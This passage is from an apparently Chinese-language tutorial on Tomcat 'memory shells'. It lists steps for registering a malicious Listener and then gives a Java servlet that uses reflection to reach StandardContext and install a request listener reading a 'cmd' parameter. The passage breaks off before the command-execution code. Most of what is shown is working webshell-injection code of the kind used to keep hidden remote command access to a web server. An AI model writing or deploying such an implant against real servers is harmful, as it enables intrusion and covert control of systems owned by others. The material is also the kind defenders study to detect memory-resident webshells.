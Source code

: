 - 继承并编写一个恶意`Listener`；
- 获取`StandardContext`；
- 调用`StandardContext#addApplicationEventListener`添加恶意`Listener`。

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(name = "ListenerMemoryShellServlet", value = "/ListenerMemoryShellServlet")
public class ListenerMemoryShellServlet extends HelloServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            ServletRequestListener listener = new ServletRequestListener() {
                @Override
                public void requestDestroyed(ServletRequestEvent sre) {
                }

                @Override
                public void requestInitialized(ServletRequestEvent sre) {
                    RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
                    try {
                        String cmd = request.getParameter("cmd");
                        Field requestField = RequestFacade.class.getDeclaredField("request");
                        requestField.setAccessible(true);
                        Request request = (Request) requestField.get(requestFacade);
                        Response response = request.getResponse();

                        if (cmd != null) {
```